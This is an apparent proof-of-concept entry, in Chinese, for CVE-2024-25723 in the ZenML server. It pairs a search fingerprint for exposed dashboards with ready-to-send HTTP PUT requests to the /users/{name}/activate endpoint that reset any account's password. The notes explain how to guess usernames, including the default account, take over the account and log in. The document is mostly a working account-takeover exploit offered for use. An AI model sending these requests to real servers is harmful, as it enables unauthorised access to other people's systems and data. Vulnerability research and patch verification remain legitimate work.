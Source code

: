 ﻿# ZenML 任意用户密码修改漏洞

> 更新时间：2024-05-14

> 漏洞编号：CVE-2024-25723

> 漏洞说明：ZenML服务器远程权限提升漏洞（CVE-2024-25723）存在于Python的0.46.7之前的ZenML机器学习包中的ZenML服务,漏洞源于/*/{user_name_or_id}/activate REST API 端点允许基于有效用户名和请求正文中的新密码进行访问，可导致未授权用户远程权限提升，可直接重置任意ZenML账户密码。

> 漏洞特征：title=="ZenML - Dashboard"

> 验证脚本：HTTP

```
PUT /api/v1/users/admin/activate HTTP/1.1
Content-Type: application/json

{"password": "dudesite@123"}
```

> 响应代码特征：200

> 响应内容特征：updated

> 上传文件定位：

> 验证文件来源：ZenML 任意用户密码修改漏洞.poc

```
备注说明：
1、该漏洞前提得知道用户名，爆破用户名即可。默认会存在default
PUT /api/v1/users/default/activate HTTP/1.1
Accept-Encoding: gzip, deflate, br
Accept: */*
Connection: close
Content-Type: application/json

{"password": "dudesite@123"}
2、替换为已知的用户名（例：admin、test）或用户Id（随机uuid），发送请求，重置该用户的密码
PUT /api/v1/users/{userName_or_userId}/activate HTTP/1.1
Content-Type: application/json

{"password": "dudesite@123"}
3、如果使用的是用户Id重置密码，查看请求返回的内容，内容中的name即为登录账号
4、使用账号、修改后的密码即可登录系统
```